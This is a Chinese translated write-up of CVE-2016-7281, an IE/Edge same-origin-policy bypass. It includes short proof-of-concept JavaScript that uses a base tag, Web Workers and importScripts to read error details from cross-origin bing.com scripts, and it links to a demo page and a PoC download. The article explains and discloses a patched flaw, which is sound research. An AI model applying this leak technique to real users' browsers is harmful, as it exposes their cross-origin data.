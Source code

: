 ```yaml
---
layout: post
title: "CVE-2016-7281：IE/Edge同源策略绕过漏洞"
categories:
- 今日头条
tags:
---
```

![](http://p1.pstatp.com/large/153a00038d6fb5e5ec6c)

翻译：vector

预估稿费：100RMB

投稿方式：发送邮件至linwei#360.cn，或登陆网页版在线投稿

前言



SOP（同源策略）可以说是Web安全的最核心的安全机制，一旦被绕过，就可能导致重大的安全漏洞。

SOP原理



正如我们所知道的，所有的浏览器在试图访问来自不同来源的资源时都会施加一些限制。

当然，我们可以播放音乐和渲染图像来自不同的域，但是由于同源策略的限制，我们将无法读取这些资源的内容。

例如，我们可以在canvas上绘制图像，但除非同源，否则我们无法使用getimagedata读取图片像素信息。同样的规则适用于脚本。我们可以自由加载外部脚本在不同的域，但如果有一个错误，我们将无法获得任何细节，因为错误本身可能泄漏信息。换句话说，浏览器通过抑制错误细节试图避免资源信息的泄漏。

比方说，我们在cracking.com.ar渲染brokenbrowser.com的一个脚本，就像这样：

123456---- Main page on cracking.com.ar ----<script src="http://brokenbrowser.com/errorscript.js"></script>---- Script errorscript.js hosted in brokenbrower.com ----this_is_an_error();

当试图执行不存在的功能”this_is_an_error()“，浏览器将抛出一个错误。然而，由于script脚本来自与不同的源，所以在cracking.com.ar上不会显示任何错误细节。

实际上，cracking.com.ar只会得到一个script error，而重要的信息如错误细节，url和行号都不会显示。

这种行为是正确的，它保证了终端用户的信息不会被泄露

12345Script requested from a different origin:Description: Script errorURL:Line: 0

另外一方面，如果我们在同一域中运行这个脚本，我们会得到更多的信息。可以比较两个之间的不同

12345Script requested from the same origin:Description: 'this_is_an_error' is undefinedURL: http://www.cracking.com.ar/errorscript.jsLine: 1

如果你想知道SOP的完整细节，你可以看这里https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy

漏洞详情



对于这个漏洞，我们只关心下面这一部分

![](http://p1.pstatp.com/large/1630000158ebef6df246)

![](http://p1.pstatp.com/large/162c0001585b5bc40617)

既然我们知道了原理，那么我们用Workers来绕过这些限制。

正常情况下，当我们直接用worker去请求另一个域的资源显然会报错，如图

![](http://p9.pstatp.com/large/15a400017e97d2ad26ac)

但是如果创建一个base的标签，标签的href指向http://www.bing.com，然后用worker请求bing域下的js文件

12345var base = document.createElement("base");base.href = "http://www.bing.com";document.head.appendChild(base);var worker = new Worker('http://www.bing.com/sa/8_1_2_5126428/HpbHeaderPopup.js');

可以看出，控制台并没有报错

![](http://p3.pstatp.com/large/15a6000414aff2315451)

 我们创建一个快速创建一个PoC来查看我们会得到什么泄露信息

12345var base = document.createElement("base");base.href = "http://www.bing.com";document.head.appendChild(base); var worker = new Worker('http://www.bing.com/sa/8_1_2_5126428/HpbHeaderPopup.js');

![](http://p3.pstatp.com/large/162c0001585d457bc9ba)

也许你认为仅仅是泄露函数名并不是大问题，对吧？但是，要记住很多网站会返回给用户特定的响应数据，如果我们能否得到足够多的泄露数据，我们就可以猜到成吨的东西。另外，如果我们发现一个那个源的读取文件的JavaScript，（如使用XMLHttpRequest）我们可能会得到更多的东西。

在任何情况下，仅仅泄露“undefined sj_ic”对我们来说是不够的，我们需要更多的。我们要绕过这个错误让脚本继续执行。

这一次我们用Worker的importScripts来达到这个目的，引入的script将会在我们的域下执行（译者注：所以这并不是SOP bypass的另一种方式），这种方式有一个优点和一个缺点，缺点是如果我们找到一个使用XMLHttpRequest的脚本，我们就不能利用它，因为它会在我们自己的域下运行；优点是我们仍然可以读取错误信息，然后可以添加代码，让代码继续执行，直到我们获得重要的泄露信息。

例如，我们可以在importScripts之前创建一个“sj_jc”函数，让脚本继续运行下去，

12345678910111213// Mainvar worker = new Worker('workerimporterror.js');worker.onerror = function(err){("URL: "+ err.filename +"\n\nLine: " + err.lineno +"\n\nError: " + err.message);}//---- workerimporterror.js ----function sj_ic(){} // Empty to suppress the first error and read the next one.importScripts(http://www.bing.com/sa/8_1_2_5126428/HpbHeaderPopup.js);

新的错误如下：

![](http://p3.pstatp.com/large/153700082256687ae3f5)

更新



这个漏洞的CVE编号为CVE-2016-7281,微软编号为MS-16-145

漏洞测试地址：http://www.cracking.com.ar/demos/workerleak/

PoC下载：https://goo.gl/rflIrM